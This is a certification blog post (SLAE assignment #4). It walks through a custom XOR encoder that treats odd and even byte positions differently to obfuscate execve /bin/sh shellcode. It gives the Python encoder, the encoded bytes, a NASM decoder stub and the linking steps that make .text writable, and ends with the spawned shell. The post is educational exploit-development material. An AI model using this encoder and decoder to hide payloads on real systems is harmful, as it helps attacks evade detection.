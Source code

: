 ```yaml
---
layout: post
title: Odd-Even encoder
categories: [re,exploit]
tags: [slae, osce]
fullview: false
comments: true
---
```

# Assignment #4
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

My idea for a custom encoder is very simple, in fact. In short, I broke the encoded shellcode in two parts: the even and odd positions. What this encoder does is reading the encoded string byte by byte and treating the bytes in odd and even positions differently. The biggest difficult was to create this decision making mechanism, which consists in two conditional jumps inside a loop. Depending whether it is an odd or even position, the current byte will be XORed with 0xAA or 0xBB.

## Odd-Even XOR encoder
I used `python3.5` for encoding the execve shellcode:

```
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

encoded = ""
encoded2 = ""

for idx, x in enumerate(shellcode):
    if idx%2 == 0:
        y = x ^ 0xaa
    else:
        y = x ^ 0xbb

    encoded += '\\x'
    encoded += '%02x' % (y & 0xff)

    encoded2 += '0x'
    encoded2 += '%02x,' %(y & 0xff)

print(encoded)
print(encoded2)
```

Generating the encoded shellcode:

```
$ python3.5 encoder.py 
\x9b\x7b\xfa\xd3\x85\x94\xd9\xd3\xc2\x94\xc8\xd2\xc4\x32\x49\xeb\x23\x59\xf9\x32\x4b\x0b\xa1\x76\x2a
0x9b,0x7b,0xfa,0xd3,0x85,0x94,0xd9,0xd3,0xc2,0x94,0xc8,0xd2,0xc4,0x32,0x49,0xeb,0x23,0x59,0xf9,0x32,0x4b,0x0b,0xa1,0x76,0x2a,
```

## Odd-Even XOR decoder
After JMP-CALL-POP, we are inside the loop which runs over the whole encrypted shellcode (25 bytes). The first thing we do is checking whether the position index is even or odd and jump to the corresponding piece of code. After XORing the current byte of the encoded shellcode, it loops back to the `decode` label, continuing the loop.

```
global _start			

section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor ecx, ecx
	mov cl, 25

decode:
	test cl, 1
	jz even   
	jnz odd
even:
	mov bx, [esi]
        xor bx, 0xBB
	mov [esi], bl

       inc esi
       loop decode
       jmp short EncodedShellcode
odd:
       mov bx, [esi]
       xor bx, 0xAA
       mov [esi], bl

       inc esi
       loop decode
       jmp short EncodedShellcode

call_shellcode:

	call decoder
	EncodedShellcode: db 0x9b,0x7b,0xfa,0xd3,0x85,0x94,0xd9,0xd3,0xc2,0x94,0xc8,0xd2,0xc4,0x32,0x49,0xeb,0x23,0x59,0xf9,0x32,0x4b,0x0b,0xa1,0x76,0x2a 
``` 

This is a CFG visualization of the decoder generated by IDA.

![Decoder visualization]({{ "/assets/media/decoder.png" | absolute_url }})

## A small caveat
In order to be able to modify the encrypted shellcode (ie to substitute its bytes for the decrypted ones) we must remember it is located in the `.text` section which is not writable by default. 

Lets assemble and link our decoder:

    $ nasm -f elf32 decoder.asm -o decoder.o ; ld -m elf_i386 decoder.o -o decoder

Now we check sessions permissions using `readelf`:

```
$ readelf -S decoder
There are 5 section headers, starting at offset 0x1fc:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        08048060 000060 00004a 00  AX  0   0 16
  [ 2] .symtab           SYMTAB          00000000 0000ac 0000d0 10      3   9  4
  [ 3] .strtab           STRTAB          00000000 00017c 00005d 00      0   0  1
  [ 4] .shstrtab         STRTAB          00000000 0001d9 000021 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

Just confirming where our string is:

    objdump -d decoder | grep EncodedShellcode
    ...
    08048091 <EncodedShellcode>:
    ...

So yeah, in `.text` section, which is not Writable. To make it writable we need to link it with the `-N` parameter:

```
       -N
       --omagic
           Set the text and data sections to be readable and writable.  Also, do not page-align the data segment, and disable linking against
           shared libraries.  If the output format supports Unix style magic numbers, mark the output as "OMAGIC". Note: Although a writable
           text section is allowed for PE-COFF targets, it does not conform to the format specification published by Microsoft.
```

Therefore:

	$ nasm -f elf32 decoder.asm -o decoder.o ; ld -N -m elf_i386 decoder.o -o decoder

Checking permissions:

```
$ readelf -S decoder
There are 5 section headers, starting at offset 0x1fc:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        08048060 000060 00004a 00 WAX  0   0 16
  [ 2] .symtab           SYMTAB          00000000 0000ac 0000d0 10      3   9  4
  [ 3] .strtab           STRTAB          00000000 00017c 00005d 00      0   0  1
  [ 4] .shstrtab         STRTAB          00000000 0001d9 000021 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

There we go, writable `.text` section!. Executing it:

```
$ ./decoder 
$ whoami
valle
```

